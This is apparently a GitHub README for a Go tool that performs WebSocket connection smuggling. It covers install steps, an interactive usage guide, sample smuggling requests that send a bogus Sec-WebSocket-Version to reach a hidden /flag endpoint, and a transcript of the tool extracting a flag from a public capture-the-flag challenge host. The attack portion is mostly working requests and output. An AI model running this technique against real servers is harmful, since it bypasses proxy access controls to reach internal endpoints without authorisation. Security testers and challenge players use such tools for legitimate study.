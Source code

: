<img src="https://user-images.githubusercontent.com/13212227/70248653-8de45d00-17be-11ea-9602-6b8f2754ddfb.png">

# websocket-connection-smuggler
## Dependency
```cassandraql
$ go get -u github.com/c-bata/go-prompt
```

## Install 
```cassandraql
$ go get github.com/hahwul/websocket-connection-smuggler
```

or 

```cassandraql
$ git clone https://github.com/hahwul/websocket-connection-smuggler
$ cd websocket-connection-smuggler
$ go build
$ ./websocket-connection-smuggler
```

## Usage
### 1. run wcs(websocket-connection-smuggler)
```cassandraql
$ websocket-connection-smuggler
```

### 2. set target address(domain or ip address)
```cassandraql
$ WCS(...) > set target {your target}
```

### 3. is SSL? (default is false)
```cassandraql
# HTTPS
$ WCS(...) > set ssl true

# HTTP
$ WCS(...) > set ssl false
```

### 4. set original request(o_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set o_data
```

e.g
```cassandraql
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

```

### 5. set smuggling reqeust(s_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set s_data
```

e.g
```cassandraql
GET /flag HTTP/1.1 
Host: localhost:5000

```

## Test to 0ang3el Websocket Smuggling Challenge
```

             ___          
            /   \\        
       /\\ | . . \\       
     ////\\|     ||       
   ////   \\ ___//\       
  ///      \\      \      
 ///       |\\      |     
//         | \\  \   \    
/          |  \\  \   \   
           |   \\ /   /   
           |    \/   /    
            ---------
     WebSocket Connection Smuggler
     by @hahwul

WCS(target=>None | ssl=>false ) > set target challenge.0ang3el.tk:80
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set o_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set s_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > send
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

2019/11/30 03:39:15 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Fri, 29 Nov 2019 18:39:15 GMT

{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Fri, 29 Nov 2019 18:39:14 GMT

        �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"5148720e07f240a99e6aa7457f41686f"}�40
```

## Video on asciinema
[![asciicast](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV.svg)](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV)

## Reference
- https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis
- https://www.hahwul.com/2019/10/websocket-connection-smuggling.html
- https://github.com/hahwul/websocket-connection-smuggling-go
